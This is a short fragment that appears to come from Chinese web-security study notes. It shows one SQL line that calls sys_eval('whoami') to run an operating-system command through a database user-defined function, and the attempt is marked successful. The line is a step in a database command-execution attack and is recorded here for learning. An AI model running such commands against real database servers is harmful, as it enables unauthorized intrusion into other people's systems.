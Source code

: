 **尝试执行系统命令**
```python
select sys_eval('whoami');
```
![image.png](../../_img/02-Web安全/01-基础知识/1663836752083-c0a3eac8-3b6d-46bf-832b-f0584922614e.png)
成功
